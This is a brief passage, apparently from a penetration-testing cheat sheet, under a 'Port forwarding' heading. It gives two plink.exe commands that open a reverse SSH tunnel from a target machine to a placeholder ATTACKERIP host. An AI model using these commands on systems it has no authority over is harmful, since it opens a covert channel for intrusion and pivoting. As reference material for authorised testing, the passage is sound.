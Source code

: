 ###### Port forwarding
`.\plink.exe root@ATTACKERIP -R PORT:LOCALHOSTIP:PORT`
`plink.exe -ssh USERNAME@ATTACKERIP -R PORT:127.0.0.1:PORT`